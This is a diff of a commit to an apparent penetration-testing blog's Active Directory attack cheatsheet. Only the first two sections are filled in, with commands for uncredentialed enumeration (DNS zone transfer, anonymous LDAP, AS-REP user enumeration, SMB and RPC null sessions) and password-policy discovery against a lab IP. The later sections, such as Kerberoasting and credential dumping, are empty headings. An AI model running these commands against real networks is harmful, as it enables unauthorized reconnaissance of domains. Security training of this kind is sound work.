

Before and after one commit to Vorkharium/vorkharium.github.io, a Jekyll site: the page built from _posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md, in a window 1280 px wide and 1400 px high, scrolled down 799 px. Shown: the whole window, without its empty margins (228-1023 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2024-11-01-Attacking-Active-Directory-Cheatsheet.md

````diff
--- a/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
+++ b/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
@@ -8,49 +8,153 @@
 ---
 
 ### Uncredentialed Enumeration and Attacks
+```shell
+# DNS Zone Transfer
+dig @172.16.150.10 AXFR website.com
 
+# LDAP Anonymous Session Dump
+ldapsearch -x -H ldap://172.16.150.10 -b "dc=website,dc=com"
+
+# No-PreAuth Kerberos without Username
+impacket-GetNPUsers website.com/ -dc-ip 172.16.150.10
+
+# SMB Null Session with smbclient
+smbclient -L 172.16.150.10 -N
+smbclient -N -L //172.16.150.10
+smbclient --no-pass -L //172.16.150.10
+smbclient //172.16.150.10/Public -N
+smbclient -U '%' -N \\\\172.16.150.10\\Public
+
+# SMB Null Session with other tools
+smbmap -H 172.16.150.10 -P 445
+nxc smb 172.16.150.10 --shares -u 'guest' -p ''
+crackmapexec smb 172.16.150.10 -u '' -p '' --shares
+impacket-smbclient website.com/'':''@172.16.150.10
+
+# RPC Null Session
+rpcclient 172.16.150.10 -N
+rpcclient -U "" -N 172.16.150.10
+rpcclient -U="" 172.16.150.10
+
+# RPC Commands
+querydispinfo
+enumdomusers
+enumdomgroups
+queryuser <username>
+
+# impacket-rpcdump
+impacket-rpcdump -port 135 website.com/'':''@172.16.150.10
+
+# enum4linux
+enum4linux -U 172.16.150.10
+
+```
 ### Domain Password Policy Enumeration
+```shell
+# NetExec and CrackMapExec
+nxc smb 172.16.150.10 -u 'user' -p 'password' --pass-pol
+crackmapexec smb 172.16.150.10 -u 'user' -p 'password' --pass-pol
 
+# enum4linux
+enum4linux -U 172.16.150.10 # Without credentials
+enum4linux -u administrator -p password -U 172.16.150.10
+
+# In CMD
+net accounts
+net user john /domain
+
+# In PowerShell
+net accounts
+Get-ADDefaultDomainPasswordPolicy
+(Get-ADDomain).DefaultPasswordPolicy
+Get-WmiObject -Class Win32_NetworkLoginProfile | Select-Object -Property Name, PasswordExpirationDate
+
+```
 ### Domain Users Enumeration
+```shell
 
+```
 ### Groups Enumeration
+```shell
 
+```
 ### SMB Shares Enumeration and Access
+```shell
 
+```
 ### RPC Enumeration
+```shell
 
+```
 ### GPO cPassword
+```shell
 
+```
 ### Password Spraying
+```shell
 
+```
 ### Local PowerShell Enumeration
+```shell
 
+```
 ### Local Credential Hunting
+```shell
 
+```
 ### Runas and RunasCs.exe
+```shell
 
+```
 ### BloodHound, SharpHound.exe, bloodhound-python
+```shell
 
+```
 ### PowerView.ps1
+```shell
 
+```
 ### Impacket PsExec, WmiExec and SMBExec - SMB Shell Access with Password or Pass-the-Hash
+```shell
 
+```
 ### Evil-WinRM - Access WinRM with Password or Pass-the-Hash
+```shell
 
+```
 ### xfreerdp - Access RDP with Password or Pass-the-Hash
+```shell
 
+```
 ### Kerberoasting with Impacket
+```shell
 
+```
 ### Kerberoasting with Rubeus.exe
+```shell
 
+```
 ### AS-REP Roasting with Impacket
+```shell
 
+```
 ### Remote Credential Dumping with Impacket and NetExec
+```shell
 
+```
 ### Local Credential Dumping with Mimikatz and Impacket
+```shell
 
+```
 ### Silver Ticket
+```shell
 
+```
 ### ACLs
+```shell
 
+```
 ### MSSQL to gain Shell
+```shell
+
+```
````
